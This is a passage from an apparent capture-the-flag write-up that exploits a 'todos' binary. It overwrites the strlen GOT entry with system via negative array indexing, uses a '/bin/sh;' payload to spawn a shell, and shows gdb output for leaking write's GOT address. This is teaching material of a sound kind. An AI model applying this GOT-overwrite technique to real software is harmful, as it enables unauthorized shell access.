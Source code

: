 I chose to override `strlen` with `system`, which means I need to override `&todos[-6*48] + 8` with `system`'s address. However, our pointer arithmetic only allows us to get a pointer to `&todos[-6*48]`, so also the `write` pointer will need to be overridden with some values. We can use `/bin/sh;` as the value to override `reloc.write` (a.k.a. `write`'s .got.plt) with - this will corrupt the pointer, but if we can spawn a shell before the program calls `write`, we don't have to worry about that.

Luckily, this is the case: Our payload (`buf`) will be `/bin/sh;<system_address>`, and immediately after reading it, we will execute the following code:
```c
  if (!fgets(buf, buf_sz, stdin)) { // <-- "strlen" address gets overridden with "system"
    err(1, "fgets()");
  }
  size_t read_cnt = strlen(buf); // <-- We call strlen(buf) a.k.a. system("/bin/sh;<system_address>") and get a shell
  if (read_cnt && buf[read_cnt-1] == '\n') {
    buf[read_cnt-1] = 0;
  }
```

As explained in the comment, calling `strlen(buf)` will give us a shell.

How do we calculate the correct address to write? We will first need to leak whatever is in `&todos[-6*48]`: `write`'s .got.plt, then perform some calculations on the leaked address in order to get to `system`'s address.

When the program wants to call `write()`, it actually calls `write@plt` (addresses might vary between systems and runs):
```assembly
gdb-peda$ disas write_all
Dump of assembler code for function write_all:
...
   0x0000555555554c43 <+37>:    call   0x555555554910 <write@plt>
...
```

Here is the implementation:
```assembly
gdb-peda$ disas 0x555555554910
Dump of assembler code for function write@plt:
   0x0000555555554910 <+0>:     jmp    QWORD PTR [rip+0x20270a]        # 0x555555757020
   0x0000555555554916 <+6>:     push   0x1
   0x000055555555491b <+11>:    jmp    0x5555555548f0
End of assembler dump.
```

It will jump to the location stored at `0x555555757020`. When the program starts (before `write` was ever called, i.e. before resolution) this contains:

```
gdb-peda$ x /4xg 0x555555757020
0x555555757020: 0x0000555555554916      0x0000555555554926
0x555555757030: 0x0000555555554936      0x0000555555554946
```

As you can see, `0x0000555555554916` is a pointer back to the same area of `write@plt`:
